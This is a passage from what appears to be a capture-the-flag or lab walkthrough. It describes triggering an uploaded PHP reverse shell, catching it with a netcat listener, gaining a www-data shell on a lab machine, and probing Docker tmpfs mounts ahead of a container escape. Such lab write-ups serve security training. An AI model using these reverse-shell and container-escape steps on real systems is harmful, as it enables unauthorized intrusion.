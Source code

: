 We'll forward the modified request to the server and eventually receive the message, File is valid, and was successfully uploaded. We know that our file should be accessible as /dev/uploads/shell.php.

Let's set up a netcat listener on port 4444 and trigger the reverse shell by navigating to http://192.168.120.138:8080/dev/uploads/shell.php:

kali@kali:~$ nc -lvp 4444
listening on [any] 4444 ...
192.168.120.138: inverse host lookup failed: Unknown host
connect to [192.168.118.3] from (UNKNOWN) [192.168.120.138] 56326
Linux bf4aa159b77b 4.15.0-122-generic #124-Ubuntu SMP Thu Oct 15 13:03:05 UTC 2020 x86_64 GNU/Linux
 16:28:55 up  1:03,  0 users,  load average: 0.00, 0.04, 0.26
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id    
uid=33(www-data) gid=33(www-data) groups=33(www-data)

We have caught our reverse shell as the www-data user.
Docker Container

The machine's hostname suggests we are actually in a Docker container that we must first escape.

$ hostname
f8e1a236869d

tmpfs

In Docker containerization, file systems are often mounted between the host and a container. Let's check for file system mounts.

$ mount
...
tmpfs on /dev type tmpfs (rw,nosuid,size=65536k,mode=755)
...
/dev/sda1 on /tmp type ext4 (rw,relatime,errors=remount-ro,data=ordered)
...

This output is revealing. First, it appears that tmpfs is being used to easily transfer files between the host and the container without having to log in each time. Second, it is mounted on the /tmp directory of the container.

This command output presents a clearer picture:

$ df -T /tmp
Filesystem     Type 1K-blocks    Used Available Use% Mounted on
/dev/sda1      ext4  16446332 4761392  10829800  31% /tmp

When a container is created with a tmpfs mount, the container can write files outside of the container's writeable layer. As opposed to volumes and bind mounts, a tmpfs mount is temporary and only persists in the host's memory.

We'll note this for future reference.
SNMP

Exploring the container, we find an SNMP configuration file in /var/backups:
